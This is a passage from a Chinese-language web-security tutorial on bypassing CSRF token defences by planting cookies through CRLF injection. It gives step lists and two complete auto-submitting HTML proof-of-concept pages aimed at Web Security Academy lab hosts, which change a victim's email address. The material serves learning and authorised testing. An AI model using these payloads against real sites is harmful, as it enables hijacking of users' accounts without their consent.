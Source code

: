 

## 绕过方法 - 4：利用任何其他漏洞来添加你的 cookie，例如 XSS、CRLF → CSRF

```
测试用例 - 1：CSRF 令牌与非会话 Cookie 绑定。当我们有两个 CSRF 令牌时，一个在 Cookie 中，另一个在功能中，这是因为存在两个框架，一个用于会话处理，一个用于 CSRF 防护，而这两个框架并未集成在一起。
Cookie 设置行为甚至不需要与 CSRF 漏洞存在于同一个 Web 应用程序中。如果受控 Cookie 具有合适的范围，则同一 DNS 域中的任何其他应用程序都可能被利用来在目标应用程序中设置 Cookie。例如，staging.demo.normal-website.com 上的 Cookie 设置功能可能会被利用来放置提交到 secure.normal-website.com 的 Cookie。

1. 查找任何允许你在受害者 Cookie 中注入内容的漏洞。
2. 测试 CSRF 令牌是否与会话 ID 绑定（尝试更改会话 ID，但保持原样）
3. 检查您的 CSRF 令牌在受害者请求中替换后是否有效
4. 最后，检查是否可以注入 CRLF 并更改 CSRF Cookie 值
5. 完成，现在创建一个带有 XSS Payload 的 CSRF POC，执行 CRLF 并将其发送给受害者

CSRF 代码示例：

<!DOCTYPE html>
<html>
<!-- CSRF PoC - 由 Burp Suite i0 SecLab 插件生成 -->
<body>
<form method="POST" action="https://ac981fc81ee9f58b80984ae400200076.web-security-academy.net:443/my-account/change-email">
<input type="text" name="csrfKey" value="ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9">
<input type="text" name="email" value="hehe@hehe.com">
<input type="text" name="csrf" value="6EU5SJ9YKzfOsq9rNgDR8toGy0TKSw81">
<input type="submit" value="发送">
</form>
<img src="http://ac981fc81ee9f58b80984ae400200076.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9" onerror="document.forms[0].submit()">
</body>
</html>

测试用例 - 2： CSRF token 只是简单地复制到 cookie 中，这里的 csrf token 值可以是任意值，只要 cookie 和参数中的值相同即可。

1. 拦截并采取行动，尝试更改 cookie 和参数中的 csrf token。
2. 编写与上述类似的 poc，但这次在 crlf 有效载荷和请求参数中放入相同的 csrf token。
3. 完成，将其发送给受害者。

CSRF POC 示例：

<!DOCTYPE html>
<html>
<!-- CSRF PoC - 由 Burp Suite i0 SecLab 插件生成 -->
<body>
<form method="POST" action="https://ac071f601e8dc74380609c1d000900b3.web-security-academy.net:443/my-account/change-email">
<input type="text" name="csrf" value="K5r92qL9pGzpC2joPMkqgBSY1GG3eo6I">
<input type="text" name="session" value="xdCFpxBe1M0MHvk0DmFuzCRlImMgdxZk">
<input type="text" name="email" value="natsu@natsu.com">
<input type="text" name="csrf" value="fake">
<input type="submit" value="发送">
</form>
<img src="http://ac071f601e8dc74380609c1d000900b3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()">
</body>
</html>
```
